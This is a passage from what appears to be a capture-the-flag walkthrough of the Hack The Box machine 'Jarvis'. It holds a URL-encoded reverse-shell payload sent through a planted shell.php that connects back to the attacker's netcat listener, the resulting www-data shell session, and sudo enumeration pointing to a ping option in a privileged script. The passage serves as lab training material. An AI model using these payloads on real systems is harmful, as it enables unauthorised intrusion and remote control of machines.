 ```
http://10.129.229.137/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.216%20443%20%3E%2Ftmp%2Ff
```

And catch a shell back in our listener:

```
┌──(ryan㉿kali)-[~/HTB/Jarvis]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.229.137] 59862
bash: cannot set terminal process group (609): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/var/www/html$ whoami
whoami
www-data
www-data@jarvis:/var/www/html$ hostname
hostname
jarvis
```

But we are still unable to grab the user.txt flag:

```
www-data@jarvis:/home/pepper$ cat user.txt
cat: user.txt: Permission denied
```

Running `sudo -l` to see if www-data can run anything with elevated permissions we find:

```
www-data@jarvis:/home/pepper$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Looking at the script we see we have the option to use `ping` which is interesting because that is a system command.

```
<sudo -u pepper /var/www/Admin-Utilities/simpler.py -h
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
```